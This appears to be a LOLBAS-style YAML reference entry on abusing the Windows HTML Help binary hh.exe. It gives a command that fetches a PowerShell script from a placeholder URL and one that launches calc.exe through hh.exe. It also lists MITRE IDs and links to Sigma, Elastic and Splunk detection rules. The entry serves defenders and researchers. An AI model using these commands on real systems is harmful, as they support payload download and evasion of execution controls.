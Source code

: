 ```yaml
---
Name: Hh.exe
Description: Binary used for processing chm files in Windows
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: HH.exe http://some.url/script.ps1
    Description: Open the target PowerShell script with HTML Help.
    Usecase: Download files from url
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: HH.exe c:\windows\system32\calc.exe
    Description: Executes calc.exe with HTML Help.
    Usecase: Execute process with HH.exe
    Category: Execute
    Privileges: User
    MitreID: T1218.001
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\hh.exe
  - Path: C:\Windows\SysWOW64\hh.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/ff0f1a0222b5100120ae3e43df18593f904c69c0/rules/windows/process_creation/win_hh_chm.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_html_help_spawn.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/ef7548f04c4341e0d1a172810330d59453f46a21/rules/windows/execution_via_compiled_html_file.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/61afb1c1c0c3f50637b1bb194f3e6fb09f476e50/rules/windows/execution_html_help_executable_program_connecting_to_the_internet.toml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/detect_html_help_spawn_child_process.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/detect_html_help_url_in_command_line.yml
Resources:
  - Link: https://oddvar.moe/2017/08/13/bypassing-device-guard-umci-using-chm-cve-2017-8625/
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```


